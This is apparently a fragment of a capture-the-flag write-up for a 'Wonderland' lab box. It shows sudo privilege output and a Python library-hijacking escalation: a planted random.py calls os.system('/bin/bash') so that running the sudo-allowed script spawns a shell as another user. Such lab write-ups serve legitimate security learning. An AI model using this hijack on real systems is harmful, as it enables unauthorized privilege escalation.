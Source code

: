 
I left the root flag file for the moment, since the permissions didn’t allow me to do anything on it at that time.

anyway. its a python script we see at the top that the random module is being imported (it's a built-in module that you can use to generate random variables, such as random numbers) 





1 :
Looking at our privileges reveals the following:


```
alice@wonderland:/$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py


```

* we could run sudo rights on it, but onlly as rabbit.


we going to import os module and to gain a shell we'll use the system /bin/bash

1 :


```
cat > random.py << EOF

```


2 :


```

> import os
> os.system("/bin/bash")
> EOF

```

Executing the python script:


```

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

```

